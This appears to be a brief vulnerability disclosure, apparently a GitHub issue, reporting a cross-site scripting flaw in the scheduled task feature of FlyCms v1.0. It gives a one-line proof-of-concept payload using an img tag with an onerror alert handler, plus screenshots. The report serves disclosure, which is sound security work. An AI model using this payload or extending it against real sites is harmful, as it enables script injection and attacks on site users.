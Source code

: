 target:https://github.com/sunkaifei/FlyCms
version: v1.0

Xss exists at the scheduled task

![1](https://github.com/ljw11e/cms/assets/155146305/2145da10-964d-4faa-8f96-7b5ec78e0c7b)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![1](https://github.com/ljw11e/cms/assets/155146305/da1f1c8a-8fad-48f9-9408-2ddad42cc804)
